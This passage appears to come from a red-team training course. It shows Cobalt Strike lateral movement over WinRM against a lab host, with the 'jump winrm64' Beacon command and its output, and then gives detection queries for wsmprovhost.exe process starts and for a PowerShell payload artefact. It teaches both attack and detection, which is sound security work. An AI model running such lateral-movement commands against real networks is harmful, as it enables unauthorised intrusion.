 The `winrm` and `winrm64` methods can be used for 32 and 64-bit targets as appropriate.

The SMB Beacon is an excellent choice when moving laterally, because the SMB protocol is used extensively in a Windows environment, so this traffic blends in very well.
```
beacon> jump winrm64 web.dev.cyberbotic.io smb
[*] Tasked beacon to run windows/beacon_bind_pipe (\\.\pipe\TSVCPIPE-81180acb-0512-44d7-81fd-fbfea25fff10) on web.dev.cyberbotic.io via WinRM
[+] host called home, sent: 225172 bytes
[+] established link to child beacon: 10.10.122.30
```
  

WinRM will return a high integrity Beacon running as the user with which you're interacting with the remote machine as.

  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/6cb/6b3/c14/winrm.png)

  

This new Beacon will be running inside `wsmprovhost.exe`, which is the "Host process for WinRM plug-ins".  This is used whenever WinRM is used, legitimate or otherwise.  You can search for process start events, but this will produce a lot of false positives if WinRM is being used legitimately by system administrators.
```
event.category: process and event.type: start and process.name: wsmprovhost.exe
```
  

The most likely means of identifying this lateral movement is by searching PowerShell script block logs for known payload artefacts.
```
event.category: process and powershell.file.script_block_text: "$var_runme.Invoke([IntPtr]::Zero)"
```